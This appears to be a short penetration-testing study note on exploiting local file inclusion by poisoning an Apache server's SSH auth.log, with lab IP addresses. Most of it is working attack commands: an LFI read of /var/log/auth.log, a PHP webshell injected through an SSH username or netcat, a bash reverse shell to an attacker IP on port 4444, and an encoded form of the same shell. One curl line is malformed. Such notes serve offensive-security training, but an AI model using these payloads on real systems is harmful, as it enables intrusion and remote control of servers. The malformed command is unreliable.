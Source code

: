 -- -
It's the same as for the [[Apache Log Poisoning]], but a different log file so different methodology.
### Enum
Say you found LFI in an #apache server, try to access the `auth.log` file in the web root
```bash
# You are looking for:
# /var/log/auth.log
curl http://192.168.249.80/console/file.php?file=/var/log/auth.log
```
### Exploit
##### Submit payload to log
Try to log into SSH with the payload as the user so it gets written to the log file, something like:
```bash
# This may not work
ssh '<?php system($_GET['c']); ?>'@192.168.249.80

# you can use netcat:
nc -nv <ip> 22
<?php system($_GET['cmd']); ?>
```
##### Use webshell to get a reverse shell
```bash
curl http://192.168.249.80/conosle/file.php?file=bash -i >& /dev/tcp/192.168.45.158/4444 0>&1

# you may need to encode the payload to get it to run, so take the command payload, stick it into burp's decoder, URL encode it, and it should look something like the following. 
curl "http://192.168.138.80/console/file.php?file=/var/log/auth.log&cmd=%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4f%54%49%75%4d%54%59%34%4c%6a%51%31%4c%6a%45%31%4f%43%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68"
```